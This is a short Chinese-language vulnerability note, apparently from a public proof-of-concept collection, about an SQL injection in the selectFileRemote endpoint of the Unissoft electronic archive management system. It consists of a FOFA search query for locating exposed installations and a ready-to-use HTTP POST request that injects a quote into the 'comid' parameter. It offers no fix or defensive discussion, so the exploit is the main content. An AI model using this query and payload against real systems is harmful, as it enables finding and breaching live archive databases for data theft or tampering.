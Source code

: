 # 紫光电子档案管理系统selectFileRemote存在SQL注入漏洞

紫光电子档案管理系统selectFileRemote存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
body="www.unissoft.com"
```

## poc

```javascript
POST /Archive/ErecordManage/selectFileRemote HTTP/1.1
Host: {{Hostname}}
Accept: */* Accept-Encoding: gzip, deflate
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded

userID=admin&fondsid=1&comid=1'
```

